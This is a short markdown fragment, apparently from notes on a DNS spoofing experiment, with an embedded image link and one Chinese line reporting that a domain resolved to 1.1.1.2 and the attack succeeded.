

域名解析成了1.1.1.2。攻击成功